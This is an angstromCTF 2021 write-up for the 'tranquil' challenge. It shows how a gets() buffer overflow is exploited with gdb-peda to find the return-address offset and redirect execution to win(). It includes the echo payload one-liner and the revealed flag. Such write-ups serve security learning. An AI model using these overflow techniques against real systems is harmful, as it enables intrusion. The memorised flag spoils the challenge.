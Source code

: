 # tranquil
## Description
Finally, [inner peace](/BINARY/tranquil/tranquil) - Master Oogway

[Source](/BINARY/tranquil/tranquil)

Connect with nc shell.actf.co 21830, or find it on the shell server at /problems/2021/tranquil.

Author: JoshDaBosh
### Hint
The compiler gives me a warning about gets... I wonder why.
## Approach
### Summary
Looking at the C source code, there is a section that uses the gets() function, and the win() function that reads flag.txt seems to be commented out and not executed.
Since the gets() function has a buffer overflow vulnerability, we can read flag.txt by overwriting the return address when the gets() function is executed with the win() function.
### Step 1
Use gdb-peda to find out the offset to the return address.

```
gdb ./tranquil
patter_create 100
```
Copy the pattern string created by the command to your clipboard.

```
r
<paste your clipboard>
```
Copy the pattern string displayed in the RSP Address field to your clipboard.

```
patto <paste your clip board>
```
Thus, we found out that the offset to the return address is 72 bytes.2
### Step 2
Find out the address of the win() function with gdb-peda.

```
x/s win
```
The address is "0x401196".
### Step 3
Input the attack string in tranquil.
Input "A" for the offset, and write the address of the win() function after them.
Don't forget to write the address in little-endian format.
In the shell,
```
echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x11\x40\x00" | ./tranquil
```
Then, we get the flag
## Flag
actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}
